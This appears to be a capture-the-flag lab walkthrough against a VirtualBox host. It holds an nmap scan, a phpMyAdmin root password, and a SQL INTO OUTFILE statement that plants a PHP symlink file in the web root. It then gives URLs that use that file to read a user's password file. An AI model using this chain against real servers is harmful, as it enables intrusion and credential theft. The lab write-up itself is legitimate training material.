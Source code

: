 ## Combine PMA + Apache2 exploit
```bash
└─$ sudo nmap -sV 192.168.1.176
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-02 08:50 EST
Nmap scan report for 192.168.1.176 
Host is up (0.00044s latency).
Not shown: 994 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.0.8 or later
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap     Dovecot imapd
443/tcp open  ssl/http Apache httpd 2.2.22
993/tcp open  ssl/imap Dovecot imapd
MAC Address: 08:00:27:D2:CA:D0 (Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

List of all exploit
https://www.exploit-db.com/search?q=apache&type=remote&platform=linux&text=2.2.22

open PhpMyAdmin `root/Fg-'kKXBj87E:aJ$` 


SELECT "<?php symlink(\"/\", \"symlink_root.php\"); ?>" into outfile "/var/www/forum/templates_c/create_symlink_root.php"

Then we only need to open
https://192.168.1.176/forum/templates_c/symlink_root.php/
https://192.168.1.176/forum/templates_c/symlink_root.php/home/LOOKATME/password